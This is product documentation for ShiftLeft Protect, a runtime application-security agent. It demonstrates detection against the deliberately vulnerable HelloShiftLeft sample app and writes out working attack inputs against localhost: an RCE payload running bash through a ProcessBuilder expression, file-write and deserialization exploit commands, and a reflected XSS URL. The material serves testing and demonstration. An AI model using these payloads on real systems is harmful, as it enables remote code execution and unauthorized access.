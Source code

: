 # Securing Your Applications Using ShiftLeft Protect

ShiftLeft Protect secures applications against exploitation of vulnerabilities by leveraging "code informed" insights. ShiftLeft Protect creates runtime security specifications based on identified vulnerabilities discovered by [ShiftLeft Inspect](../../introduction/products.md) during analysis of your code. ShiftLeft Protect deploys a ShiftLeft Microagent in-memory alongside your application in production (or other environments such as staging, test, UAT). The Microagent is customized to your application's specific shape and weaknesses and connects to a ShiftLeft Proxy server to display events and metrics in the Dashboard.

## Monitoring Mode

You can use ShiftLeft Protect in monitoring mode with your IAST tool.

## Example of ShiftLeft Protect Monitoring

ShiftLeft Protect detects exploits and payload, also blocks and sanitizes, vulnerabilities. For example, vulnerabilities and exposures in the [HelloShiftLeft sample application](../../introduction/helloshiftleft.md) can be tested with API access patterns described below and through example scripts provided in the [exploits directory](https://github.com/ShiftLeftSecurity/HelloShiftLeft/tree/master/exploits). 

### Sensitive Data Leaks to Log

| URL	  | Purpose |
| ------------- | ------------- |
| http://<span></span>localhost:8081/customers/1 | Returns JSON representation of Customer resource based on Id (1) specified in URL |
| http://<span></span>localhost:8081/customers | Returns JSON representation of all available Customer resources |
| http://<span></span>localhost:8081/patients | Returns JSON representation of all available patients in record |
| http://<span></span>localhost:8081/account/1 | Returns JSON representation of Account based on Id (1) specified |
| http://<span></span>localhost:8081/account | Returns JSON representation of all available accounts and their details |
	
All the above requests leak sensitive medical and PII data to the logging service. In addition other endpoints such as `/saveSettings`, `/search/user`, `/admin/login` etc. are also available. Along with the list above, users can explore variations of `GET`, `POST` and `PUT` requests sent to these endpoints.

### Remote Code Execution

An RCE can be triggered through the `/search/user` endpoint by sending a `GET` HTTP request as follows:

http://<span></span>localhost:8081/search/user?foo=new java.lang.ProcessBuilder({'/bin/bash','-c','echo 3vilhax0r>/tmp/hacked'}).start()

This creates a file `/tmp/hacked` with the content `3vilhax0r`.

### Arbitrary File Write

The [filewriteexploit.py](https://github.com/ShiftLeftSecurity/HelloShiftLeft/blob/master/exploits/filewriteexploit.py) script can be executed as follows to trigger the arbritary file writing through the `/saveSettings` endpoint:

```
$ python2 filewriteexploit.py http://localhost:8081/saveSettings testfile 3vilhax0r
```

This creates a file named `testfile` with `3vilhax0r` as its contents.

### Authentication Bypass

The [exploit.py](https://github.com/ShiftLeftSecurity/helloshiftleft/blob/master/exploits/JavaSerializationExploit/src/main/java/exploit.py) script allows an authentication bypass by exposing a deserialization vulnerability which allows administrator access:

```
$ python2 exploit.py
```

This returns the following sensitive data:

```
Customer;Month;Volume
Netflix;January;200,000
Palo Alto;January;200,000
### XSS
```

A reflected XSS vulnerability exists in the application and can be triggered using the **hidden** `/debug` endpoint as 

```
http://<span></span>localhost:8081/debug?customerId=1&clientId=1&firstName=a&lastName=b&dateOfBirth=123&ssn=123&socialSecurityNum=1&tin=123&phoneNumber=5432alert(1)
```

The result is an alert and returns the Customer object data.
